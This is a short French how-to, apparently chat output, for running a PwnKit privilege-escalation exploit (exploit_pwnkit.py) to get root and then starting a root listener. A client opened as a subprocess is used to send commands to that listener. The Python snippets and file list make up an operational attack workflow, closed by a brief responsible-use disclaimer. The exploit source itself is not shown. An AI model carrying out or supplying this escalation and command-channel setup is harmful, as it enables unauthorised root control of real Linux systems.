 Instructions d'Exécution
Exécuter l'Exploit PwnKit :

Ce script doit être exécuté en premier pour obtenir les privilèges root.
bash
Copier le code
python3 exploit_pwnkit.py
Démarrer l'Écouteur :

Avec les privilèges root obtenus, démarrer l'écouteur.

```python
import subprocess

# Démarrage du client comme sous-processus
client_process = subprocess.Popen(
    ["python3", "/mnt/data/client_root.py", "localhost", "8890"],
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
    text=True
)
```

```python
def send_command_to_client(command):
    client_process.stdin.write(command + "\n")
    client_process.stdin.flush()
    # Lire la sortie de manière non bloquante
    output = client_process.stdout.readline()
    return output
```

exploit_pwnkit.py : Pour exploiter PwnKit.
listener_root.py : Pour démarrer un écouteur avec des privilèges root.
client_root.py : Pour se connecter à l'écouteur et envoyer des commandes.
Avertissement
L'utilisation de ces scripts doit être faite de manière responsable et uniquement dans des environnements où vous avez l'autorisation appropriée. L'utilisation non autorisée peut entraîner des conséquences légales.

